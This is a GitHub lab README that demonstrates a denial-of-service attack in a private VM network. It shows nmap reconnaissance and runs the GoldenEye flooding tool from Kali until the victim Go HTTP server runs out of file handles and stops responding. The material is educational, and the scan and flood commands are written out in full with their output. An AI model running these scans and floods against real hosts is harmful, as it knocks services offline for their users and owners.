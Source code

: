 # HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` of the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`

### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

**Recce phase**
*1. Where and what am I? (What is my IP?)*  
```sh
$ hostname -I
192.168.234.128
```

*2. Who are around? (Select the victim)*  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

*3. What are ALL the open ports of victim?*
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```

**Attack phase**
*4. Now start attacking the victim using `goldeneye`.*  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
*5. The HTTP server starts to display errors.*  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

*6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.*  

